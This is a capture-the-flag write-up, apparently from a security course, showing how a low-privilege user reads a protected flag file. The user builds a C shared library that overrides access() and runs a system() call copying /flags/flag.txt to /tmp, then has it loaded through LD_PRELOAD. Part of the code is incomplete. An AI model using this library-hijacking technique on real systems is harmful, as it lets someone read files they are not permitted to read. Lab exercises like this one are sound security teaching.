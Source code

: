 # Steps

## 1 . Check for permissions
Firstly, we have to check the permissions in the home repository of the server - as indicated in the problem's instructions.

![](https://github.com/goncalo2k/FSI/blob/master/imgs/perms.png?raw=true)

After that, we realize that we can't directly read anything in the flags folder, but there's light at the end of the tunel: the user 'flag_reader' can read in that folder!

We also know that our user only has writing permissions in the /tmp diretctory. With this knowledge, we can:

1. Create a C file, named exploit.
    > touch exploit.c

2. After that, we inject into the file the script we're using to do a system() call, so that we can access the flax.txt file and output it into result.txt.
```cpp
echo "#include <fcntl.h>" > exploit.c
echo "#include <stdio.h>" >> exploit.c
echo "#include <stdlib.h>" >> exploit.c
echo "#include <unistd.h>" >> exploit.c
echo "#include <sys/types.h>" >> exploit.c
echo "int access(const char *pathname, int mode){" >> exploit.c
echo "    system(\"/usr/bin/cat /flags/flag.txt > /tmp/result.txt\");" >> exploit.c
```

3. Using the following line, you can make the exploit file be preloaded, in order to re-write the access() call.
> echo "LD_PRELOAD=/tmp/exploit.so" > env

4.  Using the newly re-written access call, you can now access the flag.txt file by compiling and executing the following command.
> gcc -fPIC -g -c exploit.c <br>
gcc -shared -o exploit.so exploit.o -lc <br>
chmod 777 result.txt

5. After that, you can use the cat command in order to check the result.txt file, where we will have the output of our vulnerability: the flag!
> *IN:* cat result.txt <br>
> *OUT:* Result: flag{6c396272a86850544b477b1c3750a351}





